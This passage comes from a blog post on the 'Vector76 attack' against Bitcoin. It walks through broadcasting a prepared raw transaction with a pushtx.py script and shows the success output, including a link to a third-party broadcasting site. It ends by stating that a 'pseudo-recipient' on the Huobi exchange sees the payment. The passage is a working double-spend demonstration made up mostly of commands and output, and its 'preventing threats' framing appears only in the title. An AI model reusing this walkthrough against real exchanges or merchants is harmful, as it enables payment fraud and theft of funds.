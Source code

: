 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><a href="https://youtu.be/qjcFNV90p8I"><img src="https://github.com/demining/Vector76-Attack/raw/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-4(1).png" alt="Vector76 Attack: Researching and Preventing Threats to the Bitcoin Network Detailed Cryptanalysis Based on Real Data"/></a></figure>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://youtube.com/watch?v=qjcFNV90p8I%3Fsi%3DjlnG-yg3Od3XH2bX
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>Now let’s use the&nbsp;<em><strong>Python</strong></em>&nbsp;script:&nbsp;<a href="https://github.com/smartiden/Broadcast-Bitcoin-Transaction/blob/main/pushtx.py"><strong>pushtx.py</strong></a>&nbsp;to send&nbsp;<strong>Bitcoin Transaction RawTX</strong></p>



<pre class="wp-block-code"><code><strong>!python3 pushtx.py</strong>

<strong>010000000161e8e6fbe03bb2ea5508067c270ff878bccccefa37e80d1a5b5eac321abd4131000000006b483045022100dff55be52be07900dd4d2d04473c93249ca78e37955e466437c26f06322f01bc02205ed04a2a4201e8c2b3035de7edfa972e1f7da57dbcca3eaa4fbd4db4cd8ad507012102650afad13f8fb85925ba6765dc5416bad623cdfce3f104191964253a12ed0cddffffffff01d0000107000000001976a914216a0d339ab6ddc696b1b239b9b65810c0bf73d588ac00000000</strong>
</code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Vector76-Attack/blob/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-24-1024x251.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Vector76-Attack/raw/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-24-1024x251.png" alt="Vector76 Attack: Researching and Preventing Threats to the Bitcoin Network Detailed Cryptanalysis Based on Real Data"/></a></figure>



<h4 class="wp-block-heading">Result:</h4>



<p><a href="https://github.com/demining/Vector76-Attack/blob/main/README.md#result-1"></a></p>



<pre class="wp-block-code"><code><strong>Enter your raw transaction: 010000000161e8e6fbe03bb2ea5508067c270ff878bccccefa37e80d1a5b5eac321abd4131000000006b483045022100dff55be52be07900dd4d2d04473c93249ca78e37955e466437c26f06322f01bc02205ed04a2a4201e8c2b3035de7edfa972e1f7da57dbcca3eaa4fbd4db4cd8ad507012102650afad13f8fb85925ba6765dc5416bad623cdfce3f104191964253a12ed0cddffffffff01d0000107000000001976a914216a0d339ab6ddc696b1b239b9b65810c0bf73d588ac00000000
TX: e129cd4257b2c9f5061dfb80d8b7a59e62cbaf3cdfba8d3fde2953759e63bcf0
Transaction successfully broadcasted!
Broadcasting Transactions into the Bitcoin Network: https://broad-casts.ru/bitcoin-network</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>A pseudo-recipient user of the&nbsp;&nbsp;<strong>Huobi</strong>&nbsp;crypto exchange sees a payment on the Bitcoin&nbsp;<strong>TX network: e129cd4257b2c9f5061dfb80d8b7a59e62cbaf3cdfba8d3fde2953759e63bcf0</strong></p>
